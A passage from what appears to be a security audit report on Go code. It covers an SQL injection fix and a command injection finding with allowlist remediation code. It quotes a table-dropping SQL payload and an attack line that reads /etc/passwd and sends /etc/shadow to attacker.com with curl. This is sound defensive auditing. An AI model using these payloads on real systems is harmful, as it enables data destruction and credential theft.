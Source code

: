 ```go
    defer rows.Close()
    
    // Process results safely...
}
```
**Category:** SQL Injection Defense  
**Remediation Timeline:** Immediate (< 4 hours)  
**Testing:** Test with SQLMap, manual payloads like `'; DROP TABLE users; --`

---

### 🔴 CRITICAL Risk Score: 10/10 | Threat: Data Confidentiality & Service Availability
### Issue: Command Injection via Shell Execution
**Component:** `insecure_example.go`  
**Line 91:** `output, err := exec.Command("sh", "-c", cmd).Output()`  
**Detection Pattern:** Shell execution with user-controlled input  
**Business Impact:** Complete server compromise, remote code execution, data exfiltration  
**Attack Scenario:** Attacker sends `whoami; cat /etc/passwd; curl attacker.com/exfil -d "$(cat /etc/shadow)"` to execute arbitrary commands and exfiltrate sensitive data  
**Fix:**
```go
func executeCommand(w http.ResponseWriter, r *http.Request) {
    cmd := r.URL.Query().Get("cmd")
    
    // Whitelist allowed commands
    allowedCommands := map[string][]string{
        "date": {"date"},
        "whoami": {"whoami"},
        "pwd": {"pwd"},
    }
    
    args, exists := allowedCommands[cmd]
    if !exists {
        http.Error(w, "Command not allowed", http.StatusForbidden)
        return
    }
    
    // Use exec.Command with separate arguments (no shell)
    output, err := exec.Command(args[0], args[1:]...).Output()
    if err != nil {
        log.Printf("Command execution error: %v", err)
        http.Error(w, "Command failed", http.StatusInternalServerError)
        return
    }
    
    w.Header().Set("Content-Type", "text/plain")
    w.Write(output)
}
```
**Category:** Command Injection Defense  
**Remediation Timeline:** Immediate (< 4 hours)  
**Testing:** Test with shell metacharacters like `;`, `&&`, `|`, `$()`

---